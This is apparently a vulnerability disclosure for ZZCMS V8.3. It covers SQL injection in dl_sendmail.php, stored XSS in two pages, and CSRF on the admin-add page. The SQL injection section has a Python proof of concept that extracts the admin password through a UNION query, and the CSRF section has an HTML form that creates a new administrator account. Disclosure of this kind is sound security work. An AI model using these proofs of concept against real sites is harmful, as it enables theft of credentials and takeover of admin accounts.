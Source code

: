 # ZZCMS V8.3

## 1. SQL Injection
 
#### dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

#### POC：
```
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f29*****801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
```

You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


## 2. Stored XSS

#### /user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
#### /zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

#### Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


## 3. CSRF
After the administrator logged in, open the following  page
poc：
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```




